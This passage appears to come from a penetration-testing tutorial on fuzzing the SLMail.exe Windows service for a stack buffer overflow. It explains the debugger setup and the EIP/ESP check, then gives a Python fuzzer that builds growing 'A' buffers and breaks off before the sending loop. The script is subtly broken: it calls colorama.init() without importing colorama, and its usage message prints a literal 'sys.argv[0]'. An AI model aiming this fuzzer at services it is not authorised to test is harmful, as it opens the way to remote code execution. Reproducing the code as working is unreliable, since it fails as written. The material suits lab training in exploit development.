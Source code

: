 Have the script send increasingly-large input contents in order to overrun the buffer set aside by the service for that input. Determine, based on your script's output, what the size of the last-sent buffer input was. The buffer overflow point is somewhere between the second-to-last buffer input and the last buffer input.

Before you run this script (can be on same machine or different machine from the machine that is running the target service), make sure you have a debugger running on the target machine and attached to the target service. As you run the script, the debugger will show you the value of EIP (extended instruction pointer) and ESP (extended stack pointer). When the service crashes, you want the EIP to be completely full of ASCII A character values (0x41). That means that you have sent enough input length into the service's buffer to overflow that buffer and begin wriiiting to the EIP, which can control the next bit of program execution flow. Make sure EIP = AAAA... when the program crashes, otherwise you might not have a successful buffer target.

Example script (fuzzes SLMail.exe on Windows):

```
root@kali:~# vim fuzz.py
```

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Create buffers
# Makes list of 30 buffers: 1, 100, then += 200.
buffers = ["A"]
counter = 100
while len(buffers) <= 30:
  buffers.append("A" * counter)
  counter += 200

#################### Execute the fuzzing
for buffer in buffers:
```